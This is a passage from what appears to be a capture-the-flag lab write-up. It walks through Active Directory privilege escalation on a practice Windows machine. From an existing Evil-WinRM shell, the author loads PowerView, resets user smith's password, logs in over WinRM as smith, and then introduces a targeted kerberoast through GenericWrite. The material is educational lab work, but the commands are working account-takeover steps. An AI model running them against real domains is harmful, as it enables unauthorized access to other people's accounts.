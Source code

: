                                                                  
    Data: 1027036 bytes of 1027036 bytes copied

    Info: Upload successful!
    *Evil-WinRM* PS C:\programdata> . .\PowerView.ps1



As I already have a shell as oliver, I don't need to pass that
credential. I'll just create a password and change it:



    *Evil-WinRM* PS C:\programdata> $newpass = ConvertTo-SecureString '0xdf0xdf!' -AsPlainText -Force
    *Evil-WinRM* PS C:\programdata> Set-DomainUserPassword -Identity smith -AccountPassword $newpass



### Evil-WinRM

smith is a member of Remote Management Users:

![](/img/image-20220228054030528.png)

This means the account can connect over WinRM. With the new password,
I'll use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) again:



    oxdf@hacky$ evil-winrm -i 10.10.11.132 -u smith -p '0xdf0xdf!'

    Evil-WinRM shell v3.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\smith\Documents>



## Shell as Maria

### Kerberoast

The help in BloodHound for `GenericWrite` says:

> A targeted kerberoast attack can be performed using PowerView's
> Set-DomainObject along with Get-DomainSPNTicket.
